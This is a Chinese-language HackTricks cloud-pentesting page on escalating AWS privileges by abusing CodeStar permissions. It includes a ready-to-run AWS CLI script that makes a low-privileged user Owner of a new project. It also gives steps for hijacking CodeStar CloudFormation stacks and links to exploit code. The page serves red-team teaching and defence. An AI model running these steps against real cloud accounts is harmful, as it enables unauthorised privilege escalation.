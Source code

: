 # AWS - Codestar Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Codestar

您可以在以下位置找到有关 codestar 的更多信息：

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

通过这些权限，您可以 **滥用 codestar IAM 角色** 通过 **cloudformation 模板** 执行 **任意操作**。请查看以下页面：

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

此技术使用 `codestar:CreateProject` 创建一个 codestar 项目，并使用 `codestar:AssociateTeamMember` 将 IAM 用户设为新 CodeStar **项目**的 **所有者**，这将授予他们 **一个带有额外权限的新策略**。
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
如果您已经是**项目的成员**，您可以使用权限**`codestar:UpdateTeamMember`**将**您的角色**更新为所有者，而不是`codestar:AssociateTeamMember`。

**潜在影响：** 提升到生成的codestar策略。您可以在以下位置找到该策略的示例：

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **创建新项目：**
* 利用**`codestar:CreateProjectFromTemplate`**操作启动新项目的创建。
* 成功创建后，自动授予**`cloudformation:UpdateStack`**的访问权限。
* 此访问权限专门针对与`CodeStarWorker-<generic project name>-CloudFormation` IAM角色相关联的堆栈。
2. **更新目标堆栈：**
* 使用授予的CloudFormation权限，继续更新指定的堆栈。
* 堆栈的名称通常符合以下两种模式之一：
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* 确切名称取决于所选模板（参考示例利用脚本）。
3. **访问和权限：**
* 更新后，您将获得与堆栈关联的**CloudFormation IAM角色**分配的能力。
* 注意：这并不自动提供完全的管理员权限。可能需要环境中其他配置错误的资源来进一步提升权限。

有关更多信息，请查看原始研究：[https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/)。\
您可以在[https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)找到利用代码。

**潜在影响：** 提升到cloudformation IAM角色。

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}
